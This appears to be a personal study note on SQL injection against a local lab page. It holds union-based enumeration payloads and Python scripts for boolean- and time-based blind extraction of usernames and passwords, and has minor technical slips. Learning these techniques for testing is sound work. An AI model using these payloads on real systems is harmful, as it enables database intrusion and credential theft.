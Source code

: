 
# Definition

Is a web security vulnerability that allows an attacker to interfere with the query that a applications make to a database

-----

# Steps

1. You have to find the numbers of columns

> 'order by 1-- -

2. You can play with union select
If you want to see the output you have to put a invented result in vulnerable field, like id=12312323

> 'union select 1,2,3... (put something for each column)

3. See the databases

> select schema_name from information_schema.schemata-- - 

If you only can see one database you can play with limit:

> 'union select schema_name from information_schema.schemata limit 0,1-- - (you change the first number, e.x --> 0,1,2,3...)


Other form is playing with union_concat() function that represent all separated with quotes

> searchUsers.php?id=123'union select group_concat( schema_name) from information_schema.schemata-- -

4. To see the tables

> ?id=123'union select group_concat( table_name) from information_schema.tables where table_schema='Hack4u'-- -

5. Enum columns

> ?id=123'union select group_concat( column_name) from information_schema.columns where table_schema='Hack4u' AND table_name='users'-- -

6. 

---


# Types of SQLI

## SQLI based in error

## Boolean-based blind SQL Injection

Check character a character to see what is the correct

> select (select substring(username, 1,1) from users where id = 1)='a';

If the first character is true they **return the number 1** else **return 0**

If the '' are parsed you can convert the query to decimal

> select(select ascii(substring(username,1,1)) from users where id = 1)=97;

97 in ascii is the character **a**

You can use curl command:

> curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=9 or (select (select ascii(substring(username,1,1)) from users where id = 1) = 97)"

### Script in python3 to obtain a user

````python
#!/usr/bin/python3

# Para hacer solicitudes
import requests

# This allow to do Ctrl+C and take the signal
import signal

import sys

import time

# Para jugar con las funciones de barras de progreso
from pwn import *

# To play with characters
import string

# Ctrl+c
def def_handler(sig, frame):
    print("\n\n [*] Saliendo... [*]")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://localhost/searchUsers.php"
characters = string.printable


def makeSQLI():

    p1 = log.progress("Brute Force")
    p1.status("Start brute force processing")

    time.sleep(2)

    p2 = log.progress("Extracted data")

    extracted_info = ""

    for position in range(1, 50):
        for character in range(33,126):
            sqli_url = main_url + "?id=9 or (select (select ascii(substring(username,%d,1)) from users where id = 1) = %d)" % (position, character)

            p1.status(sqli_url)

            r = requests.get(sqli_url)
            if r.status_code == 200:
                extracted_info += chr(character)
                
                p2.status(extracted_info)

                break

if __name__ == '__main__':

    makeSQLI()

          
````


### Script to obtain all the user
You only have to change the SQL query
````sql
select (select ascii(substring((select group_concat(username) from users), %d,1)) from users where id = 1) = %d
````

The output is all the users

## Based in time

If the first character of the used database is H, sleep 5 seconds

We can use ascii because exists some restriction and can put ( ' ) because they escape `\'` 

````sql
select * from users where id = 1 and if(ascii(substr(database(),1,1))=72,sleep(5),1);
````

We can automate this with an script:

````python
#!/usr/bin/python3

# Para hacer solicitudes
import requests

# This allow to do Ctrl+C and take the signal
import signal

import sys

import time

# Para jugar con las funciones de barras de progreso
from pwn import *

# To play with characters
import string

# Ctrl+c
def def_handler(sig, frame):
    print("\n\n [*] Saliendo... [*]")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://localhost/searchUsers.php"
characters = string.printable


def makeSQLI():

    p1 = log.progress("Brute Force")
    p1.status("Start brute force processing")

    time.sleep(2)

    p2 = log.progress("Extracted data")

    extracted_info = ""

    for position in range(1, 150):
        for character in range(33,126):
            sqli_url = main_url + "?id=1 and if(ascii(substr((select group_concat(username,0x3a,password) from users),%d,1))=%d, sleep(0.35),1)" % (position, character)

            p1.status(sqli_url)


            # take the actual time
            time_start = time.time()

            r = requests.get(sqli_url)

            time_end = time.time()

            if time_end - time_start > 0.35:
                extracted_info += chr(character)
                
                p2.status(extracted_info)

                break

if __name__ == '__main__':

    makeSQLI()

````


-----

# Oracle
## How to know the name of the database in Oracle
````sql
'union select ora_database_name,NULL from dual-- -
````


----

# Tags

#sqli  #python #oracle #sql 

----